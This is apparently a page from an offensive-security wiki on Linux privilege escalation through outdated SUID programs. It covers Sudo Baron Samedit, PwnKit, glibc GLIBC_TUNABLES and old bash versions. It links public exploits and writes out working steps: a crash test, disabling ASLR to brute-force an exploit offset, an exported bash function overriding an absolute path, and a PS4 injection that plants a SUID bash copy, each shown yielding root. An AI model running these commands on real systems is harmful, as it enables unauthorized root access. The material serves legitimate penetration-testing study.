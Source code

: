 ```yaml
---
description: >-
  Some common services run with elevated privileges, and can be dangerous if set
  up incorrectly or are outdated
---
```


# Outdated Versions

## Default SUID binaries

There are some common programs that require the SUID bit to work, like sudo. There is a lot of research into finding vulnerabilities in these programs specifically for Privilege Escalation. You can look up the version of a program with a term like "exploit" or "CVE" to find known exploits for it. [GitHub ](https://github.com/)and [ExploitDB](https://www.exploit-db.com/) are is great resources where Proof of Concepts are often shared, so make sure to search there if you know the program is vulnerable.&#x20;

Here are a few easily exploitable vulnerabilities in common outdated programs:

### Sudo < 1.9.5p2 (CVE-2021-3156)

The `sudoedit` program has a Heap-Based Buffer Overflow vulnerability. For all the technical details see [this writeup](https://datafarm-cybersecurity.medium.com/exploit-writeup-for-cve-2021-3156-sudo-baron-samedit-7a9a4282cb31).&#x20;

A simple proof-of-concept script was quickly made in C that you likely need to compile on the target:

{% embed url="https://github.com/CptGibbon/CVE-2021-3156" %}
An exploit of Sudo Baron Samedit written in C
{% endembed %}

If compilers like `gcc` are not available on the target, you could try the Python version:

{% embed url="https://github.com/worawit/CVE-2021-3156" %}
A few versions of the Sudo Baron Samedit exploit written in Python
{% endembed %}

### PwnKit (CVE-2021-4034)

Polkit's `pkexec` program is another SUID binary. It had a vulnerability with the PATH variable allowing you to load an arbitrary shared library, and execute any code you want. For all the technical details see [this writeup](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).

A proof-of-concept was made in C that you need to compile and run on the target:

{% embed url="https://github.com/arthepsy/CVE-2021-4034" %}
An exploit of PwnKit written in C
{% endembed %}

If compilers like `gcc` are not available on the target, you could try the Python version:

{% embed url="https://github.com/joeammond/CVE-2021-4034" %}
An exploit of PwnKit written in Python
{% endembed %}

### glibc `ld.so` > 2.34 (CVE-2023-4911)

A vulnerability in the glibc loader was found, which is used in almost all SUID binaries. It can be triggered via environment variables, specifically `GLIBC_TUNABLES`. A simple proof-of-concept was made to test if the current version is vulnerable, which uses any SUID binary like `su`:

{% code overflow="wrap" %}
```bash
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
```
{% endcode %}

{% code title="Vulnerable output" %}
```
Segmentation fault
```
{% endcode %}

{% code title="Patched output" %}
```
Usage:
 su [options] [-] [<user> [<argument>...]]
...
```
{% endcode %}

If you find that it is vulnerable, you can exploit it using one of the many scripts that were made. A useful one is the one made by [@bl4sty](https://twitter.com/bl4sty) which has 2 modes depending on **ASLR**:

* **Disabled**: "Search offset" which will try offsets 128-1024 until a dummy payload triggers
* **Enabled**: "Exploit" which uses a static offset to exploit it in a real environment

{% embed url="https://haxx.in/files/gnu-acme.py" %}
Proof of Concept with offset finder to get a root shell
{% endembed %}

Finding this offset is important because not all environments have the same one. A few common ones are included in the `TARGETS` variable in the Python script above. For consistent success on arbitrary systems, you should first _recreate the target environment_ and disable ASLR:

<pre class="language-shell-session" data-title="Recreated environment"><code class="lang-shell-session"><strong>$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
</strong><strong>$ python3 gnu-acme.py
</strong>...
found working offset for ld.so '4f536ac1cd2e8806aed8556ea7795c47404de8a9' -> 561
found working offset for ld.so '4f536ac1cd2e8806aed8556ea7795c47404de8a9' -> 562
found working offset for ld.so '4f536ac1cd2e8806aed8556ea7795c47404de8a9' -> 563
</code></pre>

Then use any of these working offsets with ASLR enabled to get a shell in a few minutes:

{% code title="gnu-acme.py" %}
```diff
TARGETS = {
    "69c048078b6c51fa8744f3d7cff3b0d9369ffd53": 561,
...
    "956d98a11b839e3392fa1b367b1e3fdfc3e662f6": 322,
+   "4f536ac1cd2e8806aed8556ea7795c47404de8a9": 561,
}
```
{% endcode %}

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ python3 gnu-acme.py
</strong>...
[i] using stack addr 0x7ffe1010100c
...................................................................................
** ohh... looks like we got a shell? **
<strong># id
</strong>uid=0(root) gid=1001(user) groups=1001(user)
</code></pre>

## Old Bash Tricks

Bash is by far the most common shell, and has had a few updates to change certain features. In previous versions of bash, there were some tricks to exploit SUID binaries with functions and environment variables. To check the version of bash use:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ bash --version
</strong>GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
</code></pre>

### Bash < 4.2-048 (absolute path overwrite)

In these older bash versions, it was possible to define a function with the name of a full path to a program. This way, if you would specify the full path to that program, it would instead execute the function you defined with the same name. This makes it possible to overwrite absolute paths like `/usr/sbin/service` ran by SUID binaries, by defining a malicious function with the same name:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ function /usr/sbin/service { /bin/bash -p; }  # Define function to get a shell
</strong><strong>$ export -f /usr/sbin/service  # Export function
</strong><strong>$ ./vulnerable
</strong># id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>

### Bash < 4.4 (PS4 variable)

When bash is in debug mode, it has the `PS4` variable which provides a custom prompt when a command is executed by the program. But the variable can run arbitrary commands with the `$()` command substitution syntax. You can set bash in debug mode with `SHELLOPTS=xtrace`, and then just set the `PS4` variable. Getting a direct shell with `/bin/bash -p` has some weird output, so I recommend just copying /bin/bash to another location and setting the SUID bit on it, so you can later run it for your root shell:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/bash; chmod +xs /tmp/bash)' ./vulnerable
</strong><strong>$ /tmp/bash -p
</strong># id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>
